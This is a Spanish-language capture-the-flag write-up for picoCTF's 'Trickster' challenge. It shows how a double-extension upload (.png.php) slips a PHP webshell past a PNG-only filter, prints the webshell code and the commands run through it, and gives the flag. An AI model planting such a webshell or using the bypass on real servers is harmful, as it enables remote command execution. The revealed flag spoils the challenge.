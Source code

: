 **RETO:**  
Trickster

**DESCRIPCIÓN:**  
I found a web app that can help process images: PNG images only!  
Try it here! [http://atlas.picoctf.net:62326](http://atlas.picoctf.net:62326/)

**SOLUCIÓN:**

1. **Reconocimiento del sitio web**:
    
    - Accedí al sitio y encontré una aplicación web para procesar imágenes PNG
        
    - La interfaz permitía subir archivos pero indicaba restricción a solo formato PNG
        
    - Probé subir diferentes tipos de archivos para entender las validaciones
        
2. **Análisis de la vulnerabilidad**:
    
    - Identifiqué que la validación de archivos se realizaba principalmente en el frontend
        
    - La aplicación aceptaba archivos con doble extensión como `.php.png` o `.png.php`
        
    - Descubrí que archivos PHP disfrazados como PNG podían ser subidos y ejecutados
        
3. **Explotación exitosa**:
    
    - Creé un webshell PHP simple con el siguiente código:
        
    
    php
    
    <?php
    if(isset($_GET['cmd'])) {
        echo "<pre>";
        system($_GET['cmd']);
        echo "</pre>";
    }
    ?>
    
    - Subí el archivo como `webshell.png.php` burlando la validación de extensiones
        
    - La aplicación aceptó el archivo y lo almacenó en el directorio `/uploads/`
        
4. **Obtención de la flag**:
    
    - Accedí al webshell en: `http://atlas.picoctf.net:62326/uploads/webshell.png.php`
        
    - Usé el parámetro `cmd` para ejecutar comandos en el servidor
        
    - Ejecuté `ls -la ../` y descubrí un archivo sospechoso: `HFQWKODGMIYTO.txt`
        
    - Finalmente, ejecuté `cat ../HFQWKODGMIYTO.txt` para obtener la flag
        

**FLAG OBTENIDA:**  
`picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17}`

**NOTAS ADICIONALES:**

- Este reto demostró la importancia de validar **tanto en frontend como backend** los archivos subidos
    
- La técnica de usar doble extensión `.png.php` bypassó fácilmente la validación superficial
    
- El webshell PHP permitió ejecución remota de comandos, mostrando el grave impacto de esta vulnerabilidad
    
- La flag estaba oculta en un archivo con nombre aleatorio en el directorio principal
    

**REFERENCIAS:**

- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
    
- [Unrestricted File Upload Vulnerability](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)